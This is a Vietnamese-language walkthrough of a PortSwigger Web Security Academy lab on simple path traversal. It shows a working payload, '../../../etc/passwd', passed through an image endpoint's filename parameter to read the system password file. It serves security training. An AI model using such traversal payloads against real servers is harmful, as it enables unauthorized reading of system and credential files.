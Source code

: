 # Lab: File path traversal, simple case

## Question

This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Answer

Dao quanh một vòng trang web mục tiêu, phát hiện url của hình ảnh có dạng:

```text
https://0a8700d803c939438273010500cb00b1.web-security-academy.net/image?filename=11.jpg
```

Chúng ta thấy tài nguyên hình ảnh được request qua url endpoint `image` và param `filename`

Thử khai thác path travesal, mục tiêu là file `etc/passwd`:

```text
?filename=etc/passwd
```

```text
"No such file"
```

Không thành công, vì trong hệ thống thư mục lưu trữ tài nguyên ảnh sẽ không cùng cấp với thư mục root.

Trước hết phải sử dụng payload `../` để quay trở lại folder trước đó, cho tới khi trở về root `/` và truy cập file `/etc/passwd`

```text
?filename=../../../etc/passwd
```

Done~~
